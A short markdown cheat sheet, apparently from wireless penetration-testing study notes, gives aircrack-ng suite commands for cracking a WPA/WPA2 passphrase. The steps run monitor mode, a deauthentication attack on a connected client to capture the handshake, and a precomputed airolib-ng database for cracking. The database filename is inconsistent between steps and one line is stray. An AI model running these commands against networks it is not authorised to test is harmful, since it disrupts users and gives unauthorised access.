 # Airolib-ng with Aircrack-ng (WPA/WPA2)

Setting up and using the `airolib-ng` tool with `aircrack-ng` suite of tools to crack the secret.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Create list of one or more SSIDs
echo $SSID > $SSID.txt

# Import that list into a new airolib-ng database
airolib-ng $SSID.sqlite --import essid $SSID.txt

# Query the imported list
airolib-ng $SSID.sqlite --stats

# Import John's password WORDLIST
airolib-ng $SSID.sqlite --import passwd $WORDLIST

# Batch process the WORDLIST for each SSID
airolib-ng wifu.sqlite --batch

# Query the results
airolib-ng wifu.sqlite --stats

# Krakatoa the password
aircrack-ng -0 -r $SSID.sqlite $PCAP
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airolib-ng](https://www.aircrack-ng.org/doku.php?id=airolib-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
